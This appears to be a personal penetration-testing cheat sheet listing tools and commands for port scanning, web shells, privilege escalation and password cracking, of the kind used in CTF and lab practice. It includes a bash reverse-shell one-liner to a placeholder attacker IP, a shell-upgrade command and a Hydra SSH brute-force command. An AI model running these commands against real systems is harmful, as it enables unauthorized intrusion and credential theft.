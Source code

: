 # My Security Resources
## Scan
### Services
- nmap
    - Parameters
        - `-A` : Enable OS detection, version detection, script scanning, and traceroute
        - `-p-` : Scan all ports
- enum4linux
    - Parameters
        - `-a` : Do all simple enumeration
## Web
### Scan Directory
- [Dirsearch](https://github.com/maurosoria/dirsearch)
- [Githack-python3](https://github.com/tigert1998/GitHack-py3)
### Shell
#### Web Shell
- [b374k](https://github.com/b374k/b374k)
#### Reverse Shell
- https://reverse-shell.sh/
- [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Bash tcp
    - `bash -c 'bash -i >& /dev/tcp/my_ip/7877 0>&1'`
- Make it moreinteractively
    - `python -c 'import pty; pty.spawn("/bin/bash")'`
## Privilege
### Software
- [GTFOBins](https://gtfobins.github.io/)
    - Linux privileges escalation 
- [PEASS-ng](https://github.com/carlospolop/PEASS-ng) , [LinEnum](https://github.com/rebootuser/LinEnum)
    - Scan the system to find which can be use for privileges escalation
- [Pspy](https://github.com/DominicBreuker/pspy)
    - Monitor the process
### Command
- `sudo -l`
## Burp Force
### Software
- Hydra
    - Crack online services password
        - SMB、SSH......
    - Usage
        - `hydra -l {username} -P {path_to_wordlist} ssh://{ip_address}`
- John the ripper
    - Crack hash like /etc/shadow
    - Support tools
        - [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)
        - gpg2john
    - Usage
        - `john {file} --wordlist={wordlist}`
- Hashcat
    - Crack hash 
### Dictionary
- rockyou.txt
- https://github.com/danielmiessler/SecLists